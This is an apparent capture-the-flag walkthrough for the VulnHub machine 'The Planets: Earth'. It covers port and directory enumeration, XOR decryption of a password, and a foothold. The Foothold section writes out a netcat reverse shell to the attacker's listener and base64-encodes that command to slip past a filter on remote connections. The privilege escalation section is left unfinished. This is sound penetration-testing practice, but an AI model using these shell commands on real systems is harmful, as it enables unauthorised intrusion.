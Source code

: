 Link: [The Planets: Earth](https://www.vulnhub.com/entry/the-planets-earth,755/)

[Walkthrough (Video) by Techno Science](https://youtu.be/e9de7AK0i2s):<br>
Walkthrough (Text): 

## Enumeration
Interface name: `ifconfig`

Get target IP: `sudo netdiscover -i eth1` - Interface name

Network Scan for Open Ports: `nmap -sV -sC -v -T4 192.168.56.103 `
No. of open ports: 3 
2 Host names

`sudo nano /etc/hosts`
Paste host name with IP address
`192.168.56.193 earth.local terratest.earth.local`
CTRL+X+ENTER  

Open browser
`earth.local`

Directory Busting - GoBuster
`gobuster dir -u https://earth.local/ -w /usr/share/wordlist/dirb/common.txt` - `-u` is for target URL, `-w` is to specify word list
- Found admin page 
earth.local/admin -> Login 
- Find credentials 
- Second DNS: Test site, give credentials
https://terratest.earth.local -> Accept risk
- Brute force directory using GoBuster
`gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlist/dirb/common.txt`
- robots.txt
  - testingnotes.txt -> XOR encryption as algorithm
 
 ## Decrypting:
 - Cyberchef download on google, save file
 
 ![image](https://user-images.githubusercontent.com/80029462/235673037-efdf02fe-ab4d-4a44-aff9-608f59213e31.png)
 
Use Wired Connection 1 if server error
- After download change back to usual connection
- Extract file, click on HTNL
- Open test data, decrypt them to XOR, drag drop hex and XOR.
- Key: update from testdata.txt, set to UTF8
- Copy and paste one by one
  - Get repeating string = Password for user 'terra'


## Foothold
Login with password
CLI command line interface 
`whoami`
- Find user flag: `ls /var/earth_web/user_flag.txt`
Command line: (Flag)

In terminal:
`ifconfig` to get machine IP
`nc -lvnp 4444` - listening port 

Remote command line shell using Netcat:
`nc -e /bin/bash machine IP (from above) 4444`

Remove connections are forbidden
- bypass by converting it to decimal notation / encode command in base64

In terminal:
`echo nc -e /bin/bash machine IP (from above) 4444 | base64`
- Copy output and run with `output | base64 -d | bash`

`python -c 'import pty;pty.spawn("/bin/bash")'`

## Priviledge Escalation

To be continued...
